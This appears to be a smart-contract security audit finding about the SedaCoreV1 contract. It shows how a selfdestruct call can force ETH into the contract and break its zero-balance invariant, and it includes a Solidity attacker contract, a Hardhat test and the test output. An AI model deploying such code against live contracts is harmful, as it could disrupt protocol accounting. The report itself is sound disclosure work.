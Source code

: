 Daring Honey Scallop

Medium

# Malicious User Can Bypass of the `SedaCoreV1` Contract's Balance Management Invariant using `selfdestruct`

## Summary:

The `SedaCoreV1` contract lacks a `receive` or `fallback` function to handle direct ETH transfers thus effectively maintaining the invariant `When there are no ongoing data requests, the contract’s token balance should always be zero`, but the `selfdestruct` opcode can be used to forcefully transfer any ETH value to an SedaCoreV1 address, bypassing the contract's intended balance management invariant.

## Vulnerability Details:

The [`SedaCoreV1`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/051b5e88a2f530792913910ebf98c50f431b1e3b/seda-evm-contracts/contracts/core/SedaCoreV1.sol#L19) contract maintains a invairant that the contract's ETH balance should be zero when no requests are active. However an allows an attacker can bypass the contract's intended balance management mechanisms by:

- Deploying a malicious contract that calls `selfdestruct(_address)` with the `SedaCoreV1` contract address as the target.

This `selfdestruct` operation bypasses the contract's lack of receive logic and transfers the ETH balance from malicious contract to the `SedaCoreV1` contract.

## Impact:

The protocol's invariant of maintaining a zero ETH balance when no requests are active is violated in SedaCoreV1. This can lead to unexpected behavior in the protocol's fee management mechanisms.

## Proof of Concept:

1. Deploy a malicious contract that calls `selfdestruct(_address)` with the `SedaCoreV1` contract address as the target.
2. The ETH balance of malicious contract is transferred to the `SedaCoreV1` breaking the invariant.

### Proof of Code:

1. Add the malicious contract code to the `contracts/mocks directory.`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DestructContract {
	// Allow contract to receive ETH
	receive() external payable {}

	// Function to self-destruct and send remaining funds to target address
	function destroyAndSend(address payable _recipient) external {
		// Self-destruct the contract and send all funds to _recipient
		selfdestruct(_recipient);
	}
}
```

2. Compile the contract using `bun run compile`.
3. Add the following PoC to the `test/core/SedaCoreV1.test.ts` file.
4. Run the test using `bun run test`.

```typescript
describe("Invariant Broken", (): void => {
  it.only("When there are no ongoing data requests, the contract’s token balance should always be zero.", async () => {
    const { core } = await loadFixture(deployCoreFixture);
    // Define and deploy DestructContract inline

    const [recipient] = await ethers.getSigners();
    const DestructContractFactory = await ethers.getContractFactory(
      "DestructContract"
    );
    const destructContract = await DestructContractFactory.deploy();
    await destructContract.waitForDeployment();
    const contractAddr = await destructContract.getAddress();

    // Send some ETH to the contract
    await recipient.sendTransaction({
      to: contractAddr,
      value: ethers.parseEther("1.0"),
    });

    // Checking no active requests
    const requests = await core.getPendingRequests(0, 10);
    expect(requests.length).to.equal(0);

    // Call the destroyAndSend function on the destruct contract
    await destructContract.destroyAndSend(core.getAddress());

    // Check the balance of the contract
    const balance = await ethers.provider.getBalance(core.getAddress());
    console.log("Balance of the contract SedaCoreV1: ", balance.toString());
    console.log("Thus, the invariant is broken");
  });
});
```

**Output:**

```rust
SedaCoreV1
    Invariant Broken
Balance of the contract SedaCoreV1:  1000000000000000000
Thus, the invariant is broken
      ✔ When there are no ongoing data requests, the contract’s token balance should always be zero. (1561ms)
```

## Recommended Mitigation:

Implement a more robust balance management mechanism that maintains the invariant ` When there are no ongoing data requests, the contract’s token balance should always be zero`.
